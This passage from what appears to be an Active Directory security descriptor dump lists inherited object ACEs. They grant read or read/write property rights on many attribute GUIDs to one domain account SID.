  OA;CI;RP;ab5543ad-23a1-3b45-b937-9b313d5474a8;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;ce5b01bc-17c6-44b8-9dc1-a9668b00901b;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;d1328fbc-8574-4150-881d-0b1088827878;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;adde62c6-1880-41ed-bd3c-30b7d25e14f0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;11fccbc7-fbe4-4951-b4b7-addf6f9efd44;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;5eb526d7-d71b-44ae-8cc6-95460052e6ac;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;54d522db-ec95-48f5-9bbd-1880ebbb2180;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;67f121dc-7d02-4c7d-82f5-9ad4c950ac34;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;c8bc72e0-a6b4-48f0-94a5-fd76a88c9987;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;79abe4eb-88f3-48e7-89d6-f4bc7e98c331;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;bf9679f4-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;37c94ff6-c6d4-498f-b2f9-c6f7f8647809;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RP;2a8c68fc-3a7a-4e87-8720-fe77c51cbe74;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;4c164200-20c0-11d0-a768-00aa006e0529;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;75159a00-1fff-4cf4-8bff-4ef2695cf643;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c17c5602-bcb7-46f0-9656-6370ca884b72;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;4b0df103-8d97-45d9-ad69-85c3080ba4e7;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c0e20a04-0e5a-4ff3-9482-5efeaecd7060;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e85e1204-3434-41ad-9b56-e2901228fff0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;41bc7f04-be72-4930-bd10-1f3439412387;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5a5aa804-3083-4863-94e5-018a79a22ec0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a05-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;eea65906-8ac6-11d0-afda-00c04fd930c9;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a8df7407-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b002f407-1340-41eb-bca0-bd7d938e25a9;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;69cab008-cdd4-4bc9-bab8-0ff37efe1b20;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a0a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c5b95f0c-ec9e-41c4-849c-b46597ed6696;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;94f2800c-531f-4aeb-975d-48ac39fd8ca4;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;00fbf30c-91fe-11d1-aebc-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8dfeb70d-c5db-46b6-b15e-a4389e6cee9b;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a0e-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5f202010-79a5-11d0-9020-00c04fc2d4cf;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;94c42110-bae4-4cea-8577-af813af5da25;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;add5cf10-7b09-4449-9ae6-2534148f8a72;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f63ed610-d67c-494d-87be-cd1e24359a38;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;aa156612-2396-467e-ad6a-28d23fdb1865;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bc2dba12-000f-464d-bf1d-0808465d8843;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3cd1c514-8449-44ca-81c0-021781800d2a;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967915-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;4a7c1319-e34e-40c2-9d00-60ff7890f207;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967919-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf96791a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;82f6c81a-fada-4a0d-b0f7-706d46838eb5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0296c11c-40da-11d1-a9c0-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0296c11d-40da-11d1-a9c0-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0296c11e-40da-11d1-a9c0-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9a9a021f-4a5b-11d1-a9c3-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;86871d1f-3310-4312-8efd-af49dcfb2671;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a3e03f1f-1d55-4253-a0af-30c2a784e46e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;d07da11f-8a3d-42b6-b0aa-76c962be719a;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3566bf1f-beee-4dcb-8abe-ef89fcfec6c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9a9a0220-4a5b-11d1-a9c3-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;16775820-47f3-11d1-a9c3-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b3f93023-9239-4f7c-b99c-6745d87adbc2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a6f24a23-d65c-4d65-a64f-35fb6873c2b9;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0296c123-40da-11d1-a9c0-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;d0e1d224-e1a0-42ce-a2da-793ba5244f35;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;564e9325-d057-c143-9e3b-4f9e5ef46f93;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;15177226-8642-468b-8c48-03ddfd004982;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f5446328-8b6e-498d-95a8-211748d5acdc;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a553d12c-3231-4c5e-8adf-8d189697721e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0a63e12c-3040-4441-ae26-cd95af0d247e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967931-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c5e60132-1480-11d3-91c1-0000f87a57d4;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a32-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;88e73b34-0aa6-4469-9842-6eb01b32a5b5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;2cc4b836-b63f-4940-8d23-ea7acf06af56;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9cbf3437-4e6e-485b-b291-22b02554273f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a76b8737-e5a1-4568-b057-dc12e04be4b2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8ce6a937-871b-4c92-b285-d99d4036681c;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;aae4d537-8af0-4daa-9cc6-62eadb84ff03;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b7ff5a38-0818-42b0-8110-d3d154c97f24;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a3a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3c01c43d-e10b-4fca-92b2-4cf615d5b09a;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf96793e-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf96793f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b23fc141-0df5-4aea-b33d-6cf493077b3f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;d7c53242-724e-4c39-9d4c-2df8c9d66c7a;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e185d243-f6ce-4adb-b496-b0c005d7823c;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5e11dc43-204a-4faf-a008-6863621c6f5f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b8dfa744-31dc-4ef1-ac7c-84baf7ef9da7;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;2f5c8145-e1bd-410b-8957-8bfa81d5acfd;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c569bb46-c680-44bc-a273-e6c227d71b45;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;612cb747-c0e8-4f92-9221-fdd5f15b550d;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f3bcc547-85b0-432c-9ac0-304506bf2c83;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a49-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;4d146e4a-48d4-11d1-a9c3-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;28be464b-ab90-4b79-a6b0-df437431d036;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;4d146e4b-48d4-11d1-a9c3-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;4b1cba4e-302f-4134-ac7c-f01f6c797843;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;dc66d44e-3d43-40f5-85c5-3c12e169927e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf96794f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967950-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8d3bca50-1d7e-11d0-a081-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f285c952-50dd-449e-9160-3b880d99988d;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967953-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e48d0154-bcf8-11d1-8702-00c04fb96050;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a55-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8fb59256-55f1-444b-aacb-f5b482fe3459;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;349f0757-51bd-4fc8-9d66-3eceea8a25be;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;16775858-47f3-11d1-a9c3-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8ab15858-683e-466d-877f-d640e1f9a611;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9edba85a-3e9e-431b-9b1a-a5b6e9eda796;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9581215b-5196-4053-a11e-6ffcafc62c4d;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e215395b-9104-44d9-b894-399ec9e21dfc;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;2915e85b-e347-4852-aabb-22e5a651c864;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9666bb5c-df9d-4d41-b437-2eec7e27c9b3;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967962-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0965a062-b1e1-403b-b48d-5c0eb0e952cc;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5805bc62-bdc9-4428-a5e2-856a0f4c185e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3a0cd464-bc54-40e7-93ae-a646a6ecc4b4;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a744f666-3d3c-4cc8-834b-9d4f6f687b8b;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;20119867-1d04-4ab7-9371-cfc3d5df0afd;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a68-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9c979768-ba1a-4c08-9632-c6a5c1ed649a;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a69-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a6a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;4ad6016b-b0d2-4c9b-93b6-5964b17b968c;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a6d-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;dc3ca86f-70ad-4960-8425-a4d6313d93dd;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9201ac6f-1d69-4dfb-802e-d95510109599;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;54dfcf71-bc3f-4f0b-9d5a-4b2476bb8925;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bac80572-09c4-4fa9-9ae6-7628d7adbe0e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967974-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;65650576-4699-4fc9-8d18-26e0cd0137a6;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;faaea977-9655-49d7-853d-f27bb7aaca0f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;60452679-28e1-4bec-ace3-712833361456;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a7a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b918fe7d-971a-f404-9e21-9261abec970b;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;78565e80-03d4-4fe3-afac-8c3bca2f3653;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967980-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;16775781-47f3-11d1-a9c3-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f8ba8f81-4cab-4973-a3c8-3a6da62a5e31;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ff84-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967985-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf967986-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;77b5b886-944a-11d1-aebd-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ff88-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0ae94a89-372f-4df2-ae8a-c64a2bc47278;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;326f7089-53d8-4784-b814-46d8535110d2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a4da7289-92a3-42e5-b6b6-dad16d280ac9;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8e940c8a-e477-4367-b08d-ff2ff942dcd7;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5bd5208d-e5f4-46ae-a514-543bc9c47659;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf96798d-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;db0c908e-c1f2-11d1-bbc5-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ff8e-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;850fcc8f-9c6b-47e1-b671-7c654be4d5b3;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;87e53590-971d-4a52-955b-4794d15a84ae;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bd29bf90-66ad-40e1-887b-10df070419a6;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ff90-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;d4159c92-957d-4a87-8a67-8d2934e01649;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b77ea093-88d0-4780-9a98-911f8e8b1dca;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a8df7394-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;29259694-09e4-4237-9f72-9306ebe63ab2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;70ca5d97-2304-490a-8a27-52678c8d2095;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0975fe99-9607-468a-8e18-c800d3387395;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;01072d9a-98ad-4a53-9744-e83e287278fb;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f63aa29a-bb31-48e1-bfab-0a6c5a1d39c2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f8f2689c-29e8-4843-8177-e8b98e15eeac;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;7ae89c9c-2976-4a46-bb8a-340f88560117;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;ff739e9c-6bb7-460e-b221-e250f3de0f95;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3e1ee99c-6604-4489-89d9-84798a89515a;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3860949f-f6a8-4b38-9950-81ecb6bc2982;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;fe6136a0-2073-11d0-a9c2-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f7a3b6a0-2107-4140-b306-75cb521731e5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;0bb0fca0-1e89-429f-901a-1413894d9f59;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ffa1-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ffa2-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ffa3-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;2a7827a4-1483-49a5-9d84-52e3812156b4;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ffa4-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ffa5-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f0f8ffa6-1191-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679a8-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679a9-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679ab-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679ac-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f34ee0ac-c0c1-4ba9-82c9-1a90752f16a5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;6617e4ac-a2f1-43ab-b60c-11fbd1facf05;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3586f6ac-51b7-4978-ab42-f936463198e7;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;23572aaf-29dd-44ea-b0fa-7e8438b9a4a3;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;6cd53daf-003e-49e7-a702-6fa896e7a6ef;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;773e93af-d3b4-48d4-b3f9-06457602d3d0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9709eaaf-49da-4db2-908a-0446e5eab844;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;47c77bb0-316e-4e2f-97f1-0d4c48fca9dd;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e45795b2-9455-11d1-aebd-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e45795b3-9455-11d1-aebd-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;670afcb3-13bd-47fc-90b3-0a527ed81ab7;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679b5-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;23998ab5-70f8-4007-a4c1-a84a38311f9a;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;862166b6-c941-4727-9565-48bfff2941de;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a11703b7-5641-4d9c-863e-5fb3325e74e0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a45398b7-c44a-4eb6-82d3-13c10946dbfe;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;1cf41bba-5604-463e-94d6-1a1287b72ca3;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;cebcb6ba-6e80-4927-8560-98feca086a9f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;28630ebb-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;fa4693bb-7bc2-4cb9-81a8-c99c43b7905e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c0ffe2bd-cacf-4dc7-88d5-61e9e95766f6;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;28630ebf-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c523e9c0-33b5-4ac8-8923-b57b927f42f6;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;fad5dcc1-2130-4c87-a118-75322cd67050;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;81d7f8c2-e327-4a0d-91c6-b42d4009115f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;db0c90c5-c1f2-11d1-bbc5-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;db0c90c6-c1f2-11d1-bbc5-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;db0c90c7-c1f2-11d1-bbc5-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9e9ebbc8-7da5-42a6-8925-244e12a56e24;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;523fc6c8-9af4-4a02-9cd7-3dea129eeb27;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;366ed7ca-3e18-4c7f-abae-351a01e4b4f7;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3e0abfd0-126a-11d0-a060-00aa006c33ed;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;856be0d0-18e7-46e1-8f5f-7ee4d9020e0d;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b7acc3d2-2a74-4fa4-ac25-e63fe8b61218;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;16c5d1d3-35c2-4061-a870-a5cefda804f0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679d7-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;800d94d7-b7a1-42a1-b14d-7cae1423d07f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5a2eacd7-cc2b-48cf-9d9a-b6f1a0024de9;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;b87a0ad8-54f7-49c1-84a0-e64d12853588;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5f0a24d9-dffa-4cd9-acbf-a0680c03731e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3d3c6dda-6be8-4229-967e-2ff5bb93b4ce;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e65c30db-316c-4060-a3a0-387b083f09cd;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;fa0c8ade-4c94-4610-bace-180efdee2140;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;1d960ee2-6464-4e95-a781-e3b5cd5f9588;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a13df4e2-dbb0-4ceb-828b-8b2e143e9e81;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;9ee3b2e3-c7f3-45f8-8c9f-1382be4984d2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8a167ce4-f9e8-47eb-8d78-f7fe80abb2cc;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;e21a94e4-2d66-4ce5-b30d-0ef87a776ff0;;S-1-5-21-2539905369-2457893589-779357875-1447
